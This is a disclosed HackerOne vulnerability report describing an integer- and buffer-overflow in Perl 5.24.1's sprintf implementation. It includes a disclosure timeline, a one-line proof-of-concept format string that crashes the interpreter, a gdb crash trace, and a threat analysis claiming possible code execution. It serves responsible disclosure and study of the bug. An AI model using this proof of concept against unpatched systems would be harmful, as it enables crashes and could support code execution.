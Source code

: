 # Format string implementation vulnerability, resulting in code execution

## Report Details
- **Report ID**: 271330
- **URL**: https://hackerone.com/reports/271330
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-09-24T16:13:07.324Z
- **Disclosed**: 2019-10-13T10:32:46.177Z

## Reporter
- **Username**: aerodudrizzt
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
In a security audit to the sprintf implementation in perl (version 5.24.1) I found a major security vulnerability, here are the full details.
Timeline:
======
* 6th of May, 2017 - disclosure to the PERL security mailing list
* 8th of May, 2017 - vulnerability confirmed by PERL's security group, found relevant to *all* maintained branches
* 9th of May, 2017 - patch issued to branches "blead"
* 30th of May, 2017 - a patched 5.26 branch is released
* 24th of August, 2017 - a patch was committed to the 5.24 branch, awaiting 5.24.3 release
* 22nd of September, 2017 - 5.24.3 was released, announcing the format string vulnerability in the release notes - public disclosure by the project

Technical Details:
===========
file: sv.c
function: Perl_sv_vcatpvfn_flags

* precis - represents a format's precision, and can be any size_t value
* width - represents the format's width, and can be any non-negative size_t value
* Using large values can cause *multiple Integer-Overflows* when calculating 'need' = the needed allocated space for a fraction
 * line 12300:        need += has_precis ? precis : 6; /* known default */
 * later on more values are added to need (need += 20, ...)
* Later on the use of 'width' for padding with spaces *assumes* that there is enough space in the buffer, causing a *Buffer Overflow*

PoC Script:
------------
```
print sprintf("%2000.2000f this is a spacer %4000.4294967245a", 1, 0x0.00008234p+9);
```
Crash trace - tested on a 32 bit linux machine:
--------------------------------------------------
```
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x080ebbe0 in Perl_runops_standard ()
(gdb) bt
#0  0x080ebbe0 in Perl_runops_standard ()
#1  0x08069356 in S_fold_constants ()
#2  0x080a8336 in Perl_yyparse ()
#3  0x08083219 in perl_parse ()
#4  0x0806218c in main ()
(gdb) info reg
eax            0x20202020    538976288
ecx            0x9f72900    167192832
edx            0x0    0
ebx            0x0    0
esp            0xbfe0e8c0    0xbfe0e8c0
ebp            0x9f6c4d0    0x9f6c4d0
esi            0x9f6f58c    167179660
edi            0x0    0
eip            0x80ebbe0    0x80ebbe0 <Perl_runops_standard+16>
eflags         0x10202    [ IF RF ]
cs             0x73    115
ss             0x7b    123
ds             0x7b    123
es             0x7b    123
fs             0x0    0
gs             0x33    51
(gdb) x /10i $eip
=> 0x80ebbe0 <Perl_runops_standard+16>:    call   *0x8(%eax)
   0x80ebbe3 <Perl_runops_standard+19>:    test   %eax,%eax
   0x80ebbe5 <Perl_runops_standard+21>:    mov    %eax,0x8207a88
   0x80ebbea <Perl_runops_standard+26>:    
    jne    0x80ebbe0 <Perl_runops_standard+16>
   0x80ebbec <Perl_runops_standard+28>:    mov    0x8207290,%eax
   0x80ebbf1 <Perl_runops_standard+33>:    test   %eax,%eax
   0x80ebbf3 <Perl_runops_standard+35>:    
    jne    0x80ebc02 <Perl_runops_standard+50>
   0x80ebbf5 <Perl_runops_standard+37>:    movb   $0x0,0x82072b0
   0x80ebbfc <Perl_runops_standard+44>:    xor    %eax,%eax
   0x80ebbfe <Perl_runops_standard+46>:    add    $0xc,%esp
```
As you can see, the first %f print enlarged the buffer, and the controllable width in the second overflowed the buffer, causing eax to be corrupt (0x20 == ' '). The program itself crashed when tried to *execute* a pointer pointed by the *controlled* eax register (+8).

Threat Analysis:
------------------
This report demonstrates a potential code execution vulnerability, in case a sprintf format will be hostile. As format string attacks are relatively more popular on C/C++ languages, they are caused by the same programming bad practices:
* "Generic" logging \ monitoring module that receives format + args, and build the message string

Such kind of vulnerabilities are still common in modern code projects, and during my career I found such vulnerabilities even in many high-profile companies. Since Perl (such as Python, and Ruby) is a memory-managed language, the programmer relies on the interpreter to "catch" problems for him, meaning that most programmers assume that these programs won't be vulnerable to format string attacks.

Conclusion:
========
The sprintf implementation has a *severe* vulnerability when handling a hostile format string. This vulnerability was demonstrated and can be easily leveraged into a remote code execution on the Perl interpreter (as I demonstrated previously in a similar vulnerability in a similar interpreter-based project).

Will be more than happy to answer any question regarding the ticket,
Eyal Itkin.

## Attachments
No attachments
